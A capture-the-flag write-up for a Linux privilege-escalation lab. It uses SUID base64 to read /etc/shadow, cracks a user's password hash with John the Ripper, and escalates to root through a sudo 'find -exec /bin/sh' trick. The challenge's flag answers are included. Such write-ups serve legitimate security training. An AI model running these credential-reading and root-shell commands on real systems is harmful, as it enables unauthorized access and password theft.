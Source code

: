 ## Linux Privilege Escalation: Capstone Challenge Solution


### What is the content of the flag1.txt file?

1. Let's gather info first about the machine
```
history
whoami
uname -a
uname -r 
/proc/version
/etc/issue
ps
sudo -l
ls
id
ifconfig
netstat -a
netstat -at
netstat -au
netstat -l 
env
```

![Screenshot 2024-02-12 at 10 52 50 PM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/93885557-a88e-46b1-afec-ce37ae12a6da)

2. Let's go to /home where we will discover that there are two other users `missy` and `rootflag`. From the history we know that the flag2.txt is in rootflag user. So chances are the `flag1.txt` is in `/home/missy`.

3. Let's first try checking if there is a kernel exploit.

![Screenshot 2024-02-12 at 10 57 42 PM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/0816430f-bb90-4de7-84c3-25b1230dba59)

Let's make a quick look for a kernel exploit for version. `3.10.0-1160.el7.x86_64`

4. Let's check for sudo rights `sudo -l`. Unfortunately `leonard` has no sudo rights. 
![Screenshot 2024-02-12 at 11 07 07 PM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/2c027c13-d03b-4e63-afc9-2f180c7868a0)

5. Check for SUID privileges.

`find / -type f -perm -04000 -ls 2>/dev/null`

![Screenshot 2024-02-12 at 11 10 10 PM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/7e65ff32-4be2-47e8-84ed-04bc072516c1)

There are multiple binaries which our current user has SUID access. Let's go to [https://gtfobins.github.io/#+suid](https://gtfobins.github.io/#+suid) to check if we can exploit any of these for root access.

We can exploit `base64` to read `/etc/passwd` and `/etc/shadow` and find information about user `missy`. Unfortunately we can't find any info about `rootflag` in these files. 

```bash
LFILE=/etc/passwd
base64 "$LFILE" | base64 --decode
```
**missy:x:1001:1001::/home/missy:/bin/bash**

```bash
LFILE=/etc/shadow
base64 "$LFILE" | base64 --decode
```
**missy:$6$BjOlWE21$HwuDvV1iSiySCNpA3Z9LxkxQEqUAdZvObTxJxMoCp/9zRVCi6/zrlMlAQPAxfwaD2JCUypk4HaNzI3rPVqKHb/:18785:0:99999:7:::**

6. Let's try cracking the password for `missy`. Create a local file `passwd.txt` and `shadow.txt` and copy the content from the target machine.

7. Unshadow the files:
   
   ```bash
   unshadow passwd.txt shadow.txt > passwords.txt
   ```
   
9. Run john the ripper on `passwords.txt`. Where we find that the password for `missy` is **Password1**
```bash
john --wordlist=/usr/share/wordlists/rockyou.txt passwords.txt
```

9. Now on the target machine let's switch user to `missy` and use the password **Password1
```bash
su missy
cd /home/missy/Documents
cat flag1.txt
```

![Screenshot 2024-02-12 at 11 36 34 PM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/4ae12f6d-b4d0-424f-9526-b129ffe82e1b)

**Answer: THM-42828719920544**


### What is the content of the flag2.txt file?

1. Continuing from what we have done above, the current user is now `missy`. Let's check her privileges by running `sudo -l`
![Screenshot 2024-02-13 at 12 00 14 AM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/115e5260-e0a4-4719-a074-86f4977579ca)

2. We find out that user `missy` has sudo priviliges for `find`. Looking at [https://gtfobins.github.io/#+sudo](https://gtfobins.github.io/#+sudo), we discover we have sudo exploits for the `find` binary.
![Screenshot 2024-02-13 at 12 04 23 AM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/b4620444-2758-4034-a842-5c9e403eb604)

3. Let's execute what we have found in GTFObins which will spawn a terminal with root privileges. 
```bash
sudo find . -exec /bin/sh \; -quit
```
![Screenshot 2024-02-13 at 12 06 17 AM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/eb86560c-67b6-4bb0-b3a2-90ab9eb5462a)

4. Now let's find out the content of `flag2.txt `which is found in `/home/rootflag`

![Screenshot 2024-02-13 at 12 08 15 AM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/518b0142-04f4-43c8-bb93-848a65b03672)

**Answer: THM-168824782390238**


